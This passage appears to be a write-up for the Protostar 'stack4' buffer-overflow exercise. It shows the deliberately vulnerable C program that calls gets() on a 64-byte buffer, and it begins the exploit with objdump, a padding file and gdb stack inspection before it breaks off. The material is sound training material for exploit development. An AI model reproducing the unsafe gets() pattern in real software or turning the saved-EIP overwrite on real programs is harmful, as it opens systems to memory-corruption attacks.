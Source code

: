 ### Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
### Overview
`Stack4 takes a look at overwriting saved EIP and standard buffer overflows.`
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ ./stack4
test
```
### Exploit
This is where things become a little more tricky than the previous challenges. We know that the end goal is to alter the program use the `win()` function and display the message. So first we wanna find out the address of where the function is stored.
```
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ objdump -D ./stack4 | grep win
080483f4 <win>:
```

Now that we know the address of the `win()` function is stored at `0x080483f4` can save that for later. We also want to create a file with our 64 'A' to understand the size of the stack.
```
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ python -c "print 'A'*64" > buffer64
```
When we run gdb in TUI mode and set the layout of `regs` and `asm` and finally set a break point on main we can passing our 64 'A' by using `r < buffer64` then we can check the stack by using `x/30x $esp` as shown below.

